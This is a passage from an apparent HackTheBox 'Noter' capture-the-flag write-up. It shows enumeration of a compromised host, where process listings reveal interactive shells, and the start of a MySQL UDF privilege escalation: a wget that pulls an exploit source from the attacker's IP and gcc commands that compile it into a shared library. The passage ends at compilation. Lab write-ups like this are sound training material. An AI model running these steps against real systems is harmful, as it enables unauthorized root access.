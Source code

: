 ## Exploring

By performing basic enumeration we can note that we can not see other user processes. I've checked it with `ps` command and [pspy64](https://github.com/DominicBreuker/pspy/blob/master/README.md).

```bash
svc@noter:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
svc         1252  0.0  1.2 616836 48928 ?        Ssl  04:40   0:01 PM2 v5.2.0: G
svc         1263  0.0  1.1 280544 45572 ?        Ssl  04:40   0:04 /usr/bin/pyth
svc        20607  0.0  1.4 601060 58300 ?        Sl   07:01   0:00 node misc/md-
svc        20614  0.0  0.0   2608   548 ?        S    07:01   0:00 /bin/sh -c cu
svc        20616  0.0  0.0   6892  3280 ?        S    07:01   0:00 bash
svc        20617  0.0  0.1   8208  5040 ?        S    07:01   0:00 /bin/bash -i
svc        24129  0.0  1.4 601860 58320 ?        Sl   07:27   0:01 node misc/md-
svc        24136  0.0  0.0   2608   608 ?        S    07:27   0:00 /bin/sh -c cu
svc        24138  0.0  0.0   6892  3280 ?        S    07:27   0:00 bash
svc        24157  0.0  0.1   8208  5004 ?        S    07:27   0:00 /bin/bash -i
svc        24239  0.0  0.1  13412  7736 ?        R    07:28   0:00 python -c imp
svc        24240  0.0  0.1   8328  5208 pts/0    Ss   07:28   0:00 /bin/bash
svc        28764  0.0  0.0   8892  3356 pts/0    R+   08:02   0:00 ps aux
```

It is strange. Also, we've noted that `mysql` is working. After some time I've runned [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to get anything. And there is a misconfiguration in mysql server:

![mysql misconfiguration](/assets/hackthebox/noter/mysql_misconfiguration.png)

MySQL server is runned by `root`, it is a classic misconfiguration on servers. We can perform [Privilege Escalation via library](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library). Let's do it!

## Privilege escalation

In that attack, if the mysql server is running as root (or a different more privileged user) we can make it execute commands. We have to create an [exploit for linux](https://www.exploit-db.com/exploits/1518) and compile it. On victim machine we create our own directory and checking if `gcc` is available:

```bash
svc@noter:~$ mkdir /tmp/flame && cd /tmp/flame
svc@noter:/tmp/flame$ which gcc
/usr/bin/gcc
```

Then, we copy the exploit's source code and compile it:

```bash
wget http://10.10.16.4:8292/raptor_udf2.c
svc@noter:/tmp/flame$ gcc -g -c raptor_udf2.c
svc@noter:/tmp/flame$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
